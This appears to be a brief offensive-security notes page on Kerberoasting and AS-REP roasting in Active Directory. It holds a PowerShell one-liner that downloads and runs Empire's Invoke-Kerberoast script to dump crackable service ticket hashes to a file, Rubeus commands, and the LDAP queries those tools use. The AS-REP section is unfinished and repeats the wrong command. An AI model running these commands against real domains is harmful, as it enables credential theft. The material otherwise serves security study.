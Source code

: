 ```yaml
---
title: "Kerberoasting"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### EmpireProject Kerberoasting one-liner

```
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000
```

#### Kerberoasting using Rubeus
The following Rubeus command executes a keberoast attack for all users within the domain that have a Service Principle Name (SPN) configured.

```Rubeus kerberoast```

The underlying LDAP query Rubeus executes (by default) to look for users is the following one:

```(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))`"```

Broken down, it does the following:

* & - This prefix asserts all subsequent filters must be met.
* (samAccountType=805306368) – Only Active Directory users (not computers, groups, etc.)
* (servicePrincipalName=*) – User accounts that have any service principal name (SPN) entries
* (!samAccountName=krbtgt) – Omit the krbtgt account from this search
* (!(UserAccountControl:1.2.840.113556.1.4.803:=2)) – Omit accounts that are disabled

Rubeus also has flags for directly outputting to a hashcat-crackable format.



#### AS-REP Roasting using Rubeus (ToDo)
```Rubeus kerberoast```

Here the LDAP query looks as follows:
```(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))```
Broken down, it does the following:
* & - All subsequent filters must be met.
* (samAccountType=805306368) - Only Active Directory users (not computers, groups, etc.)
* (userAccountControl:1.2.840.113556.1.4.803:=4194304) – Users have the "Do not require Kerberos preauthentication" enabled.


#### References
https://labs.f-secure.com/blog/attack-detection-fundamentals-discovery-and-lateral-movement-lab-1